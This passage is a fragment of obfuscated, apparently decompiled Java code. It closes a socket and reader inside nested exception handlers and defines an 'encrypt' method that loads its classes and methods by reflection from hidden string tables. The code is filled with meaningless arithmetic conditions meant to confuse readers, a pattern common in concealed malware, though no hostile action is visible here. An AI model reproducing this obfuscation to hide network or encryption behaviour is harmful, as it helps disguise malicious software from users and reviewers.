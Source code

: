 ```
                            } catch (Throwable th2) {
                                th.addSuppressed(th2);
                            }
                            throw th;
                        }
                    } while ((107 ^ 111) >= "   ".length());
                } catch (Throwable th3) {
                    try {
                        bufferedReader.close();
                        "".length();
                        if ((((((4 + 93) - 74) + 114) ^ (((54 + 50) - (-65)) + 28)) & (((101 ^ 120) ^ (60 ^ 109)) ^ (-" ".length()))) < 0) {
                            return;
                        }
                    } catch (Throwable th4) {
                        th3.addSuppressed(th4);
                    }
                    throw th3;
                }
            } catch (Throwable th5) {
                try {
                    socket.close();
                    "".length();
                    if ("  ".length() != "  ".length()) {
                        return;
                    }
                } catch (Throwable th6) {
                    th5.addSuppressed(th6);
                }
                throw th5;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String encrypt(String str) throws Exception {
        Class<?> cls = Class.forName(I[l[0]]);
        Class<?>[] clsArr = new Class[l[1]];
        clsArr[l[0]] = byte[].class;
        clsArr[l[2]] = String.class;
        Constructor<?> constructor = cls.getConstructor(clsArr);
        Object[] objArr = new Object[l[1]];
        objArr[l[0]] = I[l[2]].getBytes();
        objArr[l[2]] = I[l[1]];
        Object newInstance = constructor.newInstance(objArr);
        Class<?> cls2 = Class.forName(I[l[3]]);
        String str2 = I[l[4]];
        Class<?>[] clsArr2 = new Class[l[2]];
        clsArr2[l[0]] = String.class;
        Method method = cls2.getMethod(str2, clsArr2);
        Object[] objArr2 = new Object[l[2]];
        objArr2[l[0]] = I[l[5]];
        Object invoke = method.invoke(null, objArr2);
        String str3 = I[l[6]];
        Class<?>[] clsArr3 = new Class[l[1]];
        clsArr3[l[0]] = Integer.TYPE;
        clsArr3[l[2]] = Class.forName(I[l[7]]);
        Method method2 = cls2.getMethod(str3, clsArr3);
        Object[] objArr3 = new Object[l[1]];
        objArr3[l[0]] = Integer.valueOf(l[2]);
        objArr3[l[2]] = newInstance;
        method2.invoke(invoke, objArr3);
```